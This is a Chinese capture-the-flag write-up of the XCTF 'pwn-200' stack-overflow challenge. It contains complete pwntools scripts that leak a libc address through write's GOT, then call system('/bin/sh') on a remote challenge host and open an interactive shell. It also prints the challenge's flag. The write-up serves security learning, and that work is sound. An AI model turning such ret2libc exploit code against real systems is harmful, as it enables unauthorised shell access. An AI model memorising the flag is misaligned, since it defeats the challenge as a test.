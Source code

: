 # pwn-200

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=fbe7bf80-9346-4f56-95fa-90397f847194_2&task_category_id=2)

一道加深对rop理解的基础题。

附件扔ghidra，同时checksec。

-   Arch:     i386-32-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x8048000)

保护不算多。ghidra也反编译完成了。

![getInput](../../images/getInput.png)

这个不是main函数，是里面的一个接收输入的漏洞函数。main函数不重要就不放了。很明显的栈溢出，local_70长108却read了256。下一步找有没有system，要是有的话就可以直接将返回地址溢出到system。

然后没有，顺便找了下/bin/sh，也没有。看来rop要瞄准libc了。但是这次没有给libc，不过问题不大，可以查libc库。查库之前需要先泄露一个libc中的地址，拉出泄露专用函数puts。

等下这elf里连puts也没有。好吧，找另外一个不熟的朋友write，发现有。此处需要学习一下32位程序的rop链布置。原理我不是完全懂，毕竟栈我也懂得不多。

- n位填充垃圾字符+接下来要调用的函数地址+调用完成后的返回地址+要调用函数的参数（从左往右）

所以泄露write真实地址的payload如下。

```python
from pwn import *
write_plt=134513600
write_got=134520848
main_addr=0x080484be
payload=b'a'*0x70+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
proc=remote("61.147.171.105",54886)
proc.sendlineafter("Welcome to XDCTF2015~!",payload)
proc.recvuntil(b'\n')
write_addr=u32(proc.recv(8))
```

把这个write_addr转成16进制后放到[这里](https://libc.nullbyte.cat/?q=write%3A0xf7e763c0&l=libc6-i386_2.23-0ubuntu11_amd64)进行查询。有很多选项，首选ubuntu（因为别的我没见过(._.)）。两个ubuntu结果是一样的，哪个都行。

把查询结果点到wrtie，这样difference显示的就是各标志相对于write的偏移。把偏移抄下来，接下来就很简单了。完整exp如下。

```python
from pwn import *
write_plt=134513600
write_got=134520848
main_addr=0x080484be
payload=b'a'*0x70+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
proc=remote("61.147.171.105",54886)
proc.sendlineafter("Welcome to XDCTF2015~!",payload)
proc.recvuntil(b'\n')
write_addr=u32(proc.recv(8))
system_offset=-0x99a80
bin_sh_offset=0x84c6b
payload=b'a'*0x70+p32(write_addr+system_offset)+p32(main_addr)+p32(write_addr+bin_sh_offset)
proc.sendlineafter("Welcome to XDCTF2015~!",payload)
proc.interactive()
```

第二个payload的返回地址可以随便填，这里我抄第一个payload的所以懒得改了。

- ### Flag
  > cyberpeace{ba0100191f4231ba5a77c6887acd4bba}